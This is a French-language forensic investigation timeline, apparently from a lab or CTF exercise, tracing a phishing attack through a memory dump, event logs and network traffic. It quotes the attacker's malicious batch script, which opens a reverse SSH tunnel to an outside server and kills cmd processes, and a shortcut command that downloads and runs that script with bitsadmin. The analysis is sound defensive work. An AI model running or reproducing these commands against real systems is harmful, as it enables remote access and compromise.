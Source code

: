 # TIMELINE

## 28/02/2024

### Mail

Mail suspicieux d'Homer Simpson

![alt text](image.png)

Le mail redirige vers une archive zip et non un PDF

`http://13.39.205.164/CV_Homer_SIMPSON.zip`

C'est un serveur WEB qui tourne derrière cette IP.

### Analyse du Dump Mémoire | strings

On retrouve dans les strings une connexion SSH forward, un tunnel est crée entre la machine et le serveur vu précedemment.

```bash
ssh  -o StrictHostKeyChecking=no -f -N -R 1080 tunnel@13.39.205.164 -p 443

-f foreground
-o option -> StrictHostKeyChecking=no
-N pas d'exec de commande
-R port à forwarder
-p port vers lequel on forward
```

Extraction de données ?

### Processus: cmd.exe

On retrouve dans la liste des processus plusieurs cmd.exe

- 1 dumpit (pid 11256)
- 1 Générator de menace (pid 7072)
- 1 soupçoné d'être notre malware (pid 5728)

On retrouve dans la mémoire du cmd, ce que l'on soupçonne d'être le script malveillant (.bat)
`strings pid.5728.dmp | grep "echo off" -A 10 -B 10`

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

wmic process where... doit servir à supprimer instantanément le cmd
Ce programme .bat est probablement télécharge après l'ouverture d'un des fichiers dans l'archive, puisque l'on retrouve cette ligne dans les strings du dump mémoire:

![alt text](image-1.png)

Il y a donc un téléchargement du fichier `autologon.bat` depuis le serveur web et l'execution de celui-ci. Le code retrouvé précedemment est probablement le contenu de ce .bat.

On retrouve également sur la machine un programme étrange du nom de **bInckFhm.exe** au PID 440 que je n'ai pas pu décompilé.

## 29/02/2024

### Analyse evtx

Avec l'outil Chainsaw j'applique des sigma rules pour trier les logs evtx et les exporter en CSV.

On retrouve la création d'un utilisateur: `lisa.simpson`

![alt text](image-2.png)

On cherchant dans les strings, on retrouve la création de cet utilisateur ainsi que l'ajout de ce dernier au groupe "administrateurs"

![alt text](image-3.png)

On retrouve ces informations dans les logs evtx ouvert dans windows.

### Analyse des pièces jointes présentes sur le serveur web

On a pu récupérer les fichiers ZIP et autologon.bat présent sur le serveur WEB.

![alt text](image-4.png)

Le ZIP contient un .lnk qui est un raccourci avec une icone de pdf et il continent également le vrai CV d'Homer Simpson.

Dans le .lnk, on remarque l'execution d'une commande dans un CMD:

![alt text](image-5.png)

```bat
"C:\Windows\System32\cmd.exe" /k "bitsadmin /transfer mydownloadjob /download /priority FOREGROUND "http://13.39.205.164/autologon.bat" "c:\users\public\autologon.bat" && start c:\users\public\autologon.bat && exit"
```

C'est la commande qui télécharge l'autologon.bat. Ce dernier contient le programme suivant:

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

C'est bien le programme que j'avais trouvé hier dans les strings.

## 01/03/2024

### Analyse des strings du processus ssh.exe (pid 7328)

Dans les strings du protocole ssh je fais une découverte interessant avec des fichiers sur le Bureau (qui n'apparaissent pas dans le filescan).

![alt text](image-6.png)

Il y a notamment le fichiers CVE-2021-1675.ps1.txt qui me saute au yeux car après une recherche il s'agit d'un script permettant la création d'un utilisateur local et de le placer dans le groups des administrateur. De la même facon que lisa.simpson à été créer. Ce script est disponible juste ici:

### Analyse Wireshark

172.19.3.2 -> Serveur HTTP3 avec QUIC

![alt text](image-7.png)

Et serveur DNS
![alt text](image-8.png)

Trafic HTTP over TLS avec 2 IP publiques: (51.159.9.95 et 18.193.121.83)

![alt text](image-9.png)

Serveur FTP sur 172.19.3.3 avec connexion de n.flanders.

![alt text](image-10.png)